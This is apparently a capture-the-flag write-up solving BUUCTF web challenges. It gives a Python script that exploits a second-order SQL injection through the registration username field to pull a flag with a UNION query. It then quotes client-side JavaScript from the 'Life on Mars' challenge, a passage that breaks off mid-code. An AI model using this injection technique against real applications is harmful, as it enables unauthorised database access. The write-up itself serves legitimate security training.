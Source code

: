 ![](https://exp10it-1252109039.cos.ap-shanghai.myqcloud.com/img/202211091806903.png)

## October 2019 Twice SQL Injection

先注册再登录, username 处存在二次注入, 直接用 union 就行

payload

```python
import requests
import random
import re
import time

url = 'http://a4163eb7-4e58-4c87-aef7-ca1dd2331f37.node4.buuoj.cn:81'

s = requests.Session()

def register(sql):
    time.sleep(0.05)
    payload = "{}' union {} #".format(random.random(), sql)
    print(payload)
    data = {
    'username': payload,
    'password': '1'
    }
    res = s.post(url + '/?action=reg', data=data)
    return payload

def login(username):
    time.sleep(0.05)
    data = {
    'username': username,
    'password': '1'
    }
    res = s.post(url + '/?action=login', data=data)
    result = re.findall(r'<div>(.+?)<\/div>', res.text)[0]
    print(result)


login(register('select flag from flag'))
```

## [b01lers2020]Life on Mars

/static/js/life\_on\_mars.js

```javascript
function get_life(query) {
  $.ajax({
    type: "GET",
    url: "/query?search=" + query,
    data: "{}",
    contentType: "application/json; charset=utf-8",
    dataType: "json",
    cache: false,
    success: function(data) {
      var table_html =
        '<table id="results"><tr><th>Name</th><th>Description</th></tr>';
      $.each(data, function(i, item) {
        table_html +=
          "<tr><td>" + data[i][0] + "</td><td>" + data[i][1] + "</td></tr>";
      });
      table_html += "</table>";
```